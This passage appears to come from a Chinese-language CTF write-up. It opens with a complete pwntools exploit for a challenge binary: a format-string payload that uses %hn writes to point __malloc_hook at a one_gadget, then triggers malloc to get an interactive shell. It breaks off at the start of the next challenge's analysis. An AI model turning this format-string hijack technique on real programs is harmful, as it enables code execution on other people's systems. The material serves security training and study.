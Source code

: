 ```python
# 因为调用printf输入长的字符串会调用malloc重新申请更大的缓冲区
# malloc函数调用malloc_hook函数指针
# 那么我们可以修改malloc_hook指向我们找到的onegadget
payload = b'Remind me to '
write_size = 0
for i in range(3):
    vulen  = (gadget>>(i*16)) & 0xffff
    vulen -= 27
    # 对于每个字节，我们都需要写入一个字节，所以我们需要写入vulen个字节
    # 如果已经输入的字符大于了将要输入的值, 那么我们就需要输入对应的负数
    if(vulen > write_size&0xffff):
        payload += b'%' + bytes(str(vulen - (write_size&0xffff)).encode()) + b'c%' + bytes(str(55 + i).encode()) + b'$hn'
        write_size+=vulen - (write_size&0xffff)
    else:
        payload += b'%' + bytes(str(0x10000 - (write_size&0xffff) + vulen).encode()) + b'c%' + bytes(str(55 + i).encode()) + b'$hn'
        write_size+=0x10000 - (write_size&0xffff) + vulen
# 由于我们的payload长度是80，所以我们需要填充一些东西
payload += b'a' * (80 - len(payload) - 8 * 3)
# 设置56~80字节为malloc_hook的地址进行赋值
payload += p64(malloc_hook)
payload += p64(malloc_hook+2)
payload += p64(malloc_hook+4)

p.send('Hey Siri!')
p.recvuntil('\n>>> ')
p.send(payload)

p.recvuntil('>>> ')
p.send('Hey Siri!')
p.recvuntil('\n>>> ')
# 写入大量字符串触发malloc函数
p.send('Remind me to %99999c')
p.interactive()
```

### quantum_entanglement
*   检查文件保护, 32位开启了Canary和NX保护
![](./quantum_entanglement_1.png)
*   参数错误无法显示伪代码, 我们按y先修正参数
![](./quantum_entanglement_2.png)
*   查看代码